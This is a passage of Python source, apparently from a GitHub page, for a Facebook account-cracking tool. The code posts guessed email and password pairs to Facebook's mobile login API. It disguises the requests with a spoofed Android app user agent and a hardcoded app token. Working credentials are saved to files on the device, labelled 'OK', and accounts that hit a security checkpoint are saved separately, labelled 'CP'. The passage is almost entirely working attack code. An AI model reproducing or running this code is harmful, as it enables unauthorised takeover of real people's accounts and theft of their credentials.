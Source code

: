                                 ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [SK-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/SKSobuj-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [SKSobuj-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/SKSobuj-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open('/sdcard/SKSobuj-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def rndm(ids,passlist):
                try:
                        global ok,loop